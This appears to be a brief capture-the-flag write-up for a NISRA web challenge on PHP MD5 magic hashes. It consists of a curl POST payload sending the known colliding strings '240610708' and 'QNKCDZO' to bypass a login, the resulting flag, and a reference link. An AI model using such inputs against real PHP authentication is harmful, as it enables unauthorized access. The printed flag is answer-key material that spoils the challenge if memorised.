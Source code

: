 ```yaml
---
title: NISRA - MD5_2
tags: [NISRA, CTF, Web]

category: "Security/Practice/NISRA/Web"
---
```


# NISRA - MD5_2
## Exploit
Payload: `curl http://chall2.nisra.net:41023/ -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "user=240610708&password=QNKCDZO"`
Flag: `NISRA{S3CuR17y_1ssuEs_Of_pHP_@ND_Md5}`
## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)